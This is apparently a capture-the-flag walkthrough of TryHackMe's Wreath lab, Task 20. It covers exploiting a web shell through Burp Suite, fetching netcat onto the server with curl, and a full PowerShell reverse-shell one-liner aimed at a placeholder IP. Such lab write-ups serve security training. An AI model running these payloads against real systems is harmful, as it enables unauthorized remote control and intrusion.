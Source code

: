 **Task 20: Exploitation**

**Make sure that you are connected with the server if you are not connected with the server then you might not be able to proccedd futher..**


Its time to execute the exploitt....

Before doing so change the ip address to the target ip and change your exploit name with that of your user name on thm..
![ipchange](https://github.com/Anirudh-Saxena/Wreath-Writeup-THM/assets/73027020/9faa797b-b877-449a-850e-c99931204f23)

![exploit](https://github.com/Anirudh-Saxena/Wreath-Writeup-THM/assets/73027020/9924c6c9-8584-486c-a1f5-f3cb6736713b)

After changing the ip address and exploit, execute the python script..

![resulr](https://github.com/Anirudh-Saxena/Wreath-Writeup-THM/assets/73027020/cd4b4fbd-f997-4edb-8792-e462b6869ce2)

Now lets get started with the burpsuite and intercept the request and follow the tasks in the room..

Open the burpsuite set your foxyproxy on and change it to the burpsuite..

Now lets turn on the proxy and and intercept the proxy request, and modify it according to the task given..

After intersecpting the request send it to the repeater by pressing `ctrl+R`, or press right click there you will see the option to do so..

Now Lets edit the request in the repeater..

Make sure to edit the Get request change it with POST, the request would  look something like this..

![editedreq](https://github.com/Anirudh-Saxena/Wreath-Writeup-THM/assets/73027020/200995b5-9fc2-4192-854e-5e57a5375971)

After this send the request,and check the response tab 

![respo](https://github.com/Anirudh-Saxena/Wreath-Writeup-THM/assets/73027020/c953e518-a99c-4c2a-895a-f731ceacc4cd)

You might be wondering what `nt authority\system` means??

nt authority\system is considered as the most powerful account on a windows machine like we can access anything if we have the access of this..

**Q. First up, let's use some basic enumeration to get to grips with the webshell:What is the hostname for this target?**

Ans: For this modify the a=whoami to `a=hostname` : git-serv

**Q. What operating system is this target?**

Ans: Windows

**Q. What user is the server running as?**

    nt authority\system

**Q. this will send three ICMP ping packets back to you.
How many make it to the waiting listener?**

Ans: 0

I did this by changing the burpsuite request of a with that of `a = ping -n 3 10.50.55.145`

There was no response on the tcpdump page..

Before we can do this, however, we need to take one other thing into account. CentOS uses an always-on wrapper around the IPTables firewall called "firewalld". By default, this firewall is extremely restrictive, only allowing access to SSH and anything else the sysadmin has specified. Before we can start capturing (or relaying) shells, we will need to open our desired port in the firewall. This can be done with the following command:

        firewall-cmd --zone=public --add-port PORT/tcp

Feel free to use any port that you want to use after doing so the command will display the message as `success`

![appro](https://github.com/Anirudh-Saxena/Wreath-Writeup-THM/assets/73027020/4da6d49f-fc4a-45d5-8b97-bc9fd5ed6648)

After this open a listerner in, i will be using netcat for this the command will be as follows...

![nc](https://github.com/Anirudh-Saxena/Wreath-Writeup-THM/assets/73027020/87c977be-e3a0-4d36-aa33-1e155c5a6bbb)

After doing this execute this command on the server shell

        curl <yourip>/nc -o ./nc-trial2

Then give the file `chmod +x` permissions and then see wether thescript is working or not by this command

        ./<filename> -h

The output should be something like this..
![Screenshot_2023-08-08_04_16_05](https://github.com/Anirudh-Saxena/Wreath-Writeup-THM/assets/73027020/69884fec-3a66-400c-979f-5c5ae31e7024)

After this lets do the reverse shell connection..

Open your burpsuite (i will be using burp only) and then modify the a parametet with thsi command

        powershell.exe -c "$client = New-Object System.Net.Sockets.TCPClient('YOUR_IP',YOUR_PORT_NUMBER);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

Then press send and you will see this on your prodserver..

![last1](https://github.com/Anirudh-Saxena/Wreath-Writeup-THM/assets/73027020/d98e3f84-0487-4ce5-9b42-90eed700b8f0)

Now we will exploit this in our task 21..

